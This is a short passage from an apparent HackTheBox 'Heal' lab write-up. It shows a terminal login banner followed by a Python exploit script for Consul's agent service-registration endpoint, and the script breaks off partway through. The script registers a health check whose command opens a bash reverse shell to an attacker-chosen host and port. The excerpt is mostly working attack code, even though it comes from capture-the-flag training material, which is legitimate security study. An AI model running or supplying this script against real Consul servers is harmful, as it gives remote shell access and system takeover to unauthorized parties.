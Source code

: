 ```
  34   │ Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your In
       │ ternet connection or proxy settings
  35   │ 
  36   │ 
  37   │ Last login: Tue Feb 11 07:20:27 2025 from 10.10.14.204
```


![](/assets/images/htb-writeup-heal/consulv119.png)

```
   1   │ import requests, sys
   2   │ 
   3   │ 
   4   │ 
   5   │ if len(sys.argv) < 5:
   6   │ 
   7   │    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
   8   │ 
   9   │    exit(1)
  10   │ 
  11   │ 
  12   │ 
  13   │ target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
  14   │ 
  15   │ json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]}
       │  0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}
  16   │ 
  17   │ 
  18   │ 
  19   │ try:
  20   │ 
  21   │    requests.put(target, json=json)
```